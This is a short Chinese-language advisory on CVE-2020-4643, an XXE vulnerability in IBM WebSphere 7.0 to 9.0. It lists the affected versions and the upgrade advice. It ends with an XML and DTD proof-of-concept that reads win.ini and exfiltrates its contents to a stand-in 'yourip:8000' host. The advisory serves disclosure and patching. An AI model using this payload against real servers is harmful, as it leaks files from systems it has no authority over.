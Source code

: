 # CVE-2020-4643 IBM WebSphere存在XXE外部实体注入漏洞

**漏洞分析：**

IBM WebSphere 应用程序服务器7.0、8.0、8.5 和9.0 在处理XML 数据时容易受到XML 外部实体注入（XXE） 攻击。远程攻击者可以利用此漏洞公开敏感信息。IBM Xforce ID：185590。

**影响范围:**

WebSphere Application Server 7.0版本

WebSphere Application Server 8.0版本

WebSphere Application Server 8.5版本

WebSphere Application Server 9.0版本

**修复建议：**

官方已经提供的补丁版本列表：

WebSphere 9.0.0.0 - 9.0.5.5版本，建议升级到9.0.5.6以上版本或安装补丁

WebSphere 8.5.0.0 - 8.5.5.17版本，建议升级到8.5.5.19以上版本或安装补丁

WebSphere 8.0.0.0 - 8.0.0.15版本，建议先升级到8.0.0.15版本再安装补丁

WebSphere 7.0.0.0 - 7.0.0.45 版本，建议先升级到7.0.0.45版本再安装补丁

```
xml如下：
<!DOCTYPE x [  
   <!ENTITY % aaa SYSTEM "file:///C:/Windows/win.ini">  
   <!ENTITY % bbb SYSTEM "http://yourip:8000/xx.dtd">  
   %bbb; 
]> 
<definitions name="HelloService" xmlns="http://schemas.xmlsoap.org/wsdl/">  
&ddd; 
</definitions>

 xx.dtd如下：
 <!ENTITY % ccc '<!ENTITY ddd '<import namespace="uri" location="http://yourip:8000/xxeLog?%aaa;"/>'>'>%ccc;
```
